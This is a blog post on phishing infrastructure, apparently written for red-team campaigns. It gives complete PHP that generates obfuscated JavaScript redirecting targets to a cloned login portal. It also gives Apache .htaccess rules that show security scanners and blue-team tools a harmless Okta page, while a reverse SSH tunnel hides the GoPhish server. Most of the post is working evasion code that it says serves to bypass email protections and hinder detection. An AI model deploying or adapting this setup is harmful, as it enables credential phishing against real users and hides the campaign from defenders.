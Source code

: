 ```yaml
---
layout: post
title: "Phishing: Bypassing Protections with Dynamic Obfuscated JavaScript, PHP, and .htaccess"
date: 2025-02-26
categories: [phishing, security, PHP, .htaccess, gophish]
tags: [phishing, security, php, apache, redirect, gophish]
---
```


## Introduction

In this post, we detail a PHP script designed to dynamically generate JavaScript code for redirecting users while bypassing some email protections. We also explore the advanced use of Apache's `.htaccess` files to manage web traffic during a phishing campaign. 

![](/img/2025-02-26_1.png)

The GoPhish IOCs were removed, and the default `rid` value was replaced with `ogt`. You can find more info in [Phishing Campaigns: Simulating Real Adversary Tactics](https://dan1t0.com/2025/02/05/Phishing-Campaigns-Simulating-Real-Adversary-Tactics/).

## PHP Code for Dynamic Redirection

Below is the code for `redirect.php`, which validates a token (`ogt`), performs necessary checks, and generates dynamic JavaScript that redirects users to a login portal.

```php
<?php
// redirect.php
// Validate the token
if (!isset($_GET['ogt']) || !preg_match('/^[a-zA-Z0-9]{7}$/', $_GET['ogt'])) {
    die('Invalid token.');
}

$token = $_GET['ogt'];

// Generate a random variable name to obfuscate the JS code
$randomVar = substr(md5(rand()), 0, 8);
$redirectUrl = "https://login.acme-lab.com/?ogt=" . $token;

// Set HTML content header
header('Content-Type: text/html');
?>
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <title>Redirecting...</title>
    <script type="text/javascript">
        (function(){
            // Random variable to avoid fixed patterns in the code
            var <?php echo $randomVar; ?> = '<?php echo $redirectUrl; ?>';
            // Dynamic redirection to the login URL
            window.location.href = <?php echo $randomVar; ?>;
        })();
    </script>
</head>
<body>
    <noscript>
        If you are not redirected automatically, click <a href="<?php echo $redirectUrl; ?>">here</a>.
    </noscript>
</body>
</html>
```

### Technical Explanation

1. **Token Validation:**  
   The script checks if the `ogt` parameter exists and conforms to the expected pattern (7 alphanumeric characters). If not, the script exits.

2. **Random Variable Generation:**  
   A random variable name is generated to hold the redirection URL, which obfuscates the JavaScript code and makes it harder for automated tools to detect a fixed pattern.

3. **Dynamic JavaScript Generation:**  
   The PHP script outputs HTML that includes a JavaScript snippet. This snippet creates the randomly named variable and immediately redirects the browser to the generated URL. A `<noscript>` tag is included for users with disabled JavaScript.

## Web Traffic Flow and .htaccess Configuration

The report outlines a controlled web traffic flow using Apache rewrite rules and `.htaccess` configurations. Below is a detailed explanation of the configurations.

### Traffic Flow

1. **User Entry:**  
   The user receives a link structured as follows:
   ```
   https://lading.acme-lab.com/?ogt=3XdwYUe
   ```
   - **lading.acme-lab.com:** The domain that receives the request.
   - **ogt=3XdwYUe:** A token used for tracking.

2. **Internal Redirection:**  
   The server internally forwards the user to:
   ```
   https://lading.acme-lab.com/redirect.php?ogt=3XdwYUe
   ```
   where the PHP script (shown above) dynamically generates the JavaScript for redirection.

3. **Final Destination:**  
   Ultimately, the user is redirected to:
   ```
   https://login.acme-lab.com/?ogt=3XdwYUe
   ```
   which hosts the cloned captive portal for the campaign.

4. **Infrastructure Setup:**
   - **GoPhish Deployment:** GoPhish is hosted on an internal server that is not directly accessible from the internet.
   - **Reverse SSH Proxy:** The domain `login.acme-lab.com` acts as a proxy that forwards traffic to the internal GoPhish instance using reverse SSH tunneling. This allows external users to interact with GoPhish's phishing portal without exposing it directly.
   - **Port Forwarding:** The reverse SSH connection binds the internal GoPhish service running on port `8080` to the external-facing proxy.

### .htaccess Configurations

Two `.htaccess` files were employed, one for the landing page and another for the login portal to manage traffic effectively. Below, we detail each configuration.

#### .htaccess hosted in lading.acme-lab.com

```apache
RewriteEngine On

# 1. Check if the request is for /track
# 2. Check if the query string contains ogt parameter
# 3. Check if the user-agent is GoogleImageProxy
# If all 3 conditions are met, redirect to https://login.acme-innov.com/track?%{QUERY_STRING}
RewriteCond %{REQUEST_URI} ^/track$ [NC]
RewriteCond %{QUERY_STRING} (^|&)ogt=([a-zA-Z0-9]{7})($|&) [NC]
RewriteCond %{HTTP_USER_AGENT} via\ ggpht\.com\ GoogleImageProxy [NC]
RewriteRule ^ https://login.acme-lab.com/track?%{QUERY_STRING} [R=302,L]


# Redirect empty bots and user-agents to Okta
RewriteCond %{HTTP_USER_AGENT} "WebZIP|wget|curl|HTTrack|crawl|google|bot|b\-o\-t|spider|baidu|python|scrapy|postman|semrush|avast|Norton|Kaspersky|MSIE|trident" [NC,OR]
RewriteCond %{HTTP_USER_AGENT} =""
RewriteRule ^.*$ https://acme-labo.okta.com [R=302,L]

# If the URI is exactly /redirect.php and, if so, stops any further rewriting rules from being applied to this request.
RewriteCond %{REQUEST_URI} ^/redirect\.php$ [NC]
RewriteRule ^ - [L]

# If the URI is exactly /favicon.ico and, if so, stops any further rewriting rules from being applied to this request.
RewriteCond %{REQUEST_URI} ^/favicon\.ico$ [NC]
RewriteRule ^ - [L]

# Redirect URLs with ogt parameter to redirect.php respecting ALL query params
RewriteCond %{QUERY_STRING} (^|&)ogt=([a-zA-Z0-9]{7})($|&)
RewriteRule ^ /redirect.php [L,QSA]

# Redirect all other requests to Okta without parameters
RewriteRule ^.*$ https://acme-labo.okta.com [R=302,L]
```

#### .htaccess hosted in GoPhish for extra-evasion

```apache
RewriteEngine On

#For GoPhish tracking
RewriteCond %{REQUEST_URI} ^/track$ [NC]
RewriteCond %{QUERY_STRING} (^|&)ogt=([a-zA-Z0-9]{7})($|&) [NC]
RewriteCond %{HTTP_USER_AGENT} via\ ggpht\.com\ GoogleImageProxy [NC]
RewriteRule ^.*$ http://localhost:8080%{REQUEST_URI} [P,L]

#Avoiding BlueTeam
RewriteCond %{HTTP_USER_AGENT} "wget|curl|HTTrack|crawl|google|bot|b\-o\-t|spider|baidu" [NC,OR]
RewriteCond %{HTTP_USER_AGENT} =""
RewriteRule ^.*$ https://acme-labo.okta.com? [L,R=302]

#For Gophish
RewriteCond %{QUERY_STRING} ogt=(.+)
RewriteCond %{QUERY_STRING} js_executed=1 [OR]
RewriteCond %{QUERY_STRING} !js_executed=
RewriteRule ^.*$ http://localhost:8080%{REQUEST_URI} [P,L]

#Others
RewriteRule ^.*$ https://acme-labo.okta.com? [L,R=302]
```

## Conclusion

In this post, we showcased how a PHP script can dynamically generate JavaScript for user redirection within a phishing campaign, complemented by advanced `.htaccess` rules for traffic management. By combining server-side validation with client-side dynamic redirection and leveraging Apache's rewrite capabilities, it is possible to bypass common email protections and maintain tight control over the traffic flow.

This infrastructure setup allows GoPhish to remain internal while still serving external users through a reverse SSH proxy, reducing exposure and making detection more challenging.
